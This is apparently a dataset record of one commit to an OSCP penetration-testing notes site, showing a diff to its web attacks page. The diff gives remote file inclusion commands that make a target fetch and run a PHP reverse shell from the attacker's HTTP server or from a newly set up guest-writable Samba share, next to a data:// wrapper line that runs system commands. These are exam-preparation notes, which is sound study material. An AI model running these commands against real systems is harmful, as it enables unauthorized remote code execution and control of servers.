

Before and after one commit to krovs/oscp-notes, an MkDocs documentation site: the page built from docs/11_web_attacks.md, in a window 1280 px wide and 900 px high, scrolled down 2830 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Put new stuff

````diff
--- a/docs/11_web_attacks.md
+++ b/docs/11_web_attacks.md
@@ -143,9 +143,19 @@ curl "http://<ip>/index.php?page=data://text/plain,<?php%20echo%20system('uname%
 ### Remote
 
 ```shell
-# serve a PHP reverse shell and set a listener and execute it remotely
+# serve a PHP reverse shell and execute it remotely
 python3 -m http.server 80
 curl http://<url>/index.php?page=http://<local_ip>/shell.php
+
+# create a samba share with a reverse shell
+service smbd start
+# important to create the share outside user homes
+cd /srv
+mkdir share
+cd share
+sudo net usershare add test (pwd) '' 'Everyone:F' guest_ok=y
+
+curl http://<url>/blog/?lang=\\<local_ip>\test\reverse.php
 ```
 
 ## File Upload
````
Also changed, not shown: docs/13_exploitation.md (+22 -0 lines), docs/15_windows_privesc.md (+17 -0 lines), docs/16_linux_privesc.md (+2 -2 lines), docs/20_ad_lateral_mov.md (+7 -0 lines), docs/index.md (+7 -0 lines).
